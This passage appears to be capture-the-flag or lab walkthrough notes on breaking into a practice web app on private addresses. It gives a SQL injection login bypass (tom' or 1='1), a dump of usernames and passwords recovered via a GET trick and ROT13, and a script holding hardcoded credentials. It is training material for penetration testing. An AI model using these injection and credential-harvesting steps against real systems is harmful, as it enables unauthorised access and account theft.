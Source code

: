     1. In both the password and username field, enter: tom' or 1='1
    2. Displays a user, welcome Aaron


Method 2: change inspect element to GET will display

        Array
        (
            [0] => user2
            [name] => user2
            [1] => RntyrfVfNER78
            [pass] => RntyrfVfNER78
        )
        1Array
        (
            [0] => user3
            [name] => user3
            [1] => Obo4GURRnccyrf
            [pass] => Obo4GURRnccyrf
        )
        1Array
        (
            [0] => Lee_Roth
            [name] => Lee_Roth
            [1] => anotherpassword4THEages
            [pass] => anotherpassword4THEages
        )

If a password is not readable check ROT13 -> https://rot13.com/

Cyberchef -> http://10.50.20.30:8000/themes/BattleMap/static/cyberchef.htm

Step 6. Check /login.php

    1. Displays a user, welcome Aaron -> since it says Aaron, it means you're in. 
    2. username could potentially be Aaron

Step 7. Check /img/
    
    1. Found nothing useful here

Step 8. Check /scripts/

    1. Went to http://10.50.29.144/scripts/
    2. Found patent directory and development.py
    3. Patent directory -> Nothing here 
    4. Development.py 

        #!/usr/bin/python3
        import os

        system_user=user2
        user_password=EaglesIsARE78

        ##Developer note

        #script will eventually take above system user credentials and run automated services
